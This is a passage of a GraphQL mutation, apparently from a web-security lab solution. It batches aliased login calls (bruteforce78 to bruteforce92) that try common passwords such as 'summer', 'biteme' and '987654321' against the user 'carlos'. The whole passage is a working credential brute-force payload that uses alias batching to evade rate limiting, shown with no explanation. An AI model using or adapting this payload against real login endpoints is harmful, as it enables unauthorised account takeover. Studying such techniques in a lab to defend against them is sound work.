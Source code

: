 ``` json
    token
    success
  }
  bruteforce78: login(input: { password: "summer", username: "carlos" }) {
    token
    success
  }
  bruteforce79: login(input: { password: "love", username: "carlos" }) {
    token
    success
  }
  bruteforce80: login(input: { password: "ashley", username: "carlos" }) {
    token
    success
  }
  bruteforce81: login(input: { password: "nicole", username: "carlos" }) {
    token
    success
  }
  bruteforce82: login(input: { password: "chelsea", username: "carlos" }) {
    token
    success
  }
  bruteforce83: login(input: { password: "biteme", username: "carlos" }) {
    token
    success
  }
  bruteforce84: login(input: { password: "matthew", username: "carlos" }) {
    token
    success
  }
  bruteforce85: login(input: { password: "access", username: "carlos" }) {
    token
    success
  }
  bruteforce86: login(input: { password: "yankees", username: "carlos" }) {
    token
    success
  }
  bruteforce87: login(input: { password: "987654321", username: "carlos" }) {
    token
    success
  }
  bruteforce88: login(input: { password: "dallas", username: "carlos" }) {
    token
    success
  }
  bruteforce89: login(input: { password: "austin", username: "carlos" }) {
    token
    success
  }
  bruteforce90: login(input: { password: "thunder", username: "carlos" }) {
    token
    success
  }
  bruteforce91: login(input: { password: "taylor", username: "carlos" }) {
    token
    success
  }
  bruteforce92: login(input: { password: "matrix", username: "carlos" }) {
    token
    success
  }
```